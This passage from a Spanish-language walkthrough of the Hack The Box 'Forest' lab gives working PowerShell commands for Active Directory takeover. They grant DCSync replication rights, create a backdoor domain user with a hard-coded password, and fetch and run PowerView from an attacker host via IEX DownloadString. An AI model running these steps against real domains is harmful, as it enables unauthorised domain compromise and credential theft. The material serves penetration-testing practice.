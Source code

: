 > Si no aparece, salir/entrar nuevamente. Si da “Access is denied”, usa la **Opción B (usuario auxiliar)**.

### 7.2 Conceder DCSync (3 ACEs) sobre el objeto del dominio
```powershell
$dn="DC=htb,DC=local"
dsacls $dn /G "HTB\svc-alfresco:CA;Replicating Directory Changes"
dsacls $dn /G "HTB\svc-alfresco:CA;Replicating Directory Changes All"
dsacls $dn /G "HTB\svc-alfresco:CA;Replicating Directory Changes In Filtered Set"
```
- **CA;Replicating Directory Changes** (GUID `1131f6aa-...`)
- **CA;Replicating Directory Changes All** (GUID `1131f6ad-...`)
- **CA;Replicating Directory Changes In Filtered Set** (GUID `89e95b76-...`)

**Verificación rápida:**
```powershell
dsacls $dn /S | findstr /I svc-alfresco
```
> A veces `dsacls /S` no muestra nombres (sale SDDL o muchísima salida). Si no lo ves, pero los comandos no dieron error, suele estar OK.

### 7.3 Opción B — Usuario auxiliar `tempUser` (más estable en Forest)
```powershell
# Crear y habilitar
net user tempUser P@ssw0rd! /add /domain
net user tempUser /active:yes /domain

# Agregar a EWP + permitir WinRM local
net group "Exchange Windows Permissions" tempUser /add /domain
net localgroup "Remote Management Users" HTB\tempUser /add

# Re-login como tempUser
exit
evil-winrm -i "$TARGET" -u tempUser -p 'P@ssw0rd!'
whoami /groups | findstr /I /C:"Exchange Windows Permissions"

# Conceder DCSync a tempUser
$dn="DC=htb,DC=local"
dsacls $dn /G "HTB\tempUser:CA;Replicating Directory Changes"
dsacls $dn /G "HTB\tempUser:CA;Replicating Directory Changes All"
dsacls $dn /G "HTB\tempUser:CA;Replicating Directory Changes In Filtered Set"
```

### 7.4 Plan C — PowerView (si `dsacls` se resiste)
En **Kali** (sirve PowerView):
```bash
python3 -m http.server 8000
# asegúrate de tener PowerView.ps1 en ese dir
```
En la sesión WinRM:
```powershell
IEX (New-Object Net.WebClient).DownloadString('http://LHOST:8000/PowerView.ps1')
$dn=(Get-ADDomain).DistinguishedName
Add-ObjectACL -TargetDistinguishedName $dn -PrincipalIdentity tempUser -Rights DCSync
Get-ObjectACL -DistinguishedName $dn -ResolveGUIDs | ? {$_.IdentityReference -match 'tempUser'}
```

---